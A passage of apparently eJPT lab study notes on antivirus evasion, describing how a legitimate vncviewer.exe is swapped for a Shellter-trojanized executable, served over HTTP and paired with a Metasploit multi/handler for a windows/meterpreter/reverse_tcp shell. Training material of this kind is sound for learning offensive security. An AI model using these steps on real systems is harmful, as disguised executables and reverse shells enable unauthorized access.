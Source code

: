 - Now the `/home/kali/certs/ejpt/AVBypass/vncviewer.exe` **file has been replaced by the Shellter generated malicious executable**
- Copy the `vncviewer.exe` file to the target machine

```bash
# Attacker VM
cd /home/kali/certs/ejpt/AVBypass/
sudo python -m http.server 80

# In another terminal
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.31.128
set LPORT 1234
run
```

![vncviewer.exe file copied](.gitbook/assets/image-20230424171306459.png)

- Run the `vncviewer.exe` file and chheck the `msfconsole` Meterpreter session
